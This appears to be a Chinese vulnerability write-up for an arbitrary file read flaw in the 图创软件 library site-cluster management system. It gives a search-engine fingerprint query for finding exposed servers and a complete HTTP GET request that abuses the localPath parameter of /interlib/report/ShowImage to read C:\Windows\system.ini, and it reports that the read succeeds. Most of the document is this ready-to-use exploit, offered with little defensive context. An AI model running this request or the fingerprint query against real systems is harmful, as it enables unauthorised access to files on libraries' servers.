

# 图创软件 图书馆站群管理系统 任意文件读取漏洞

## 漏洞描述

图创软件 图书馆站群管理系统 存在任意文件读取漏洞，攻击者通过漏洞可以读取任意文件

## 漏洞影响

<a-checkbox checked>图创软件 图书馆站群管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>"广州图创" && country="CN" && body="/interlib/common/"</a-checkbox></br>

## 漏洞复现

登录页面如下


漏洞请求包为

```plain
GET /interlib/report/ShowImage?localPath=C:\Windows\system.ini HTTP/1.1
Host: 
Content-Length: 4
```




成功读取 `system.ini`文件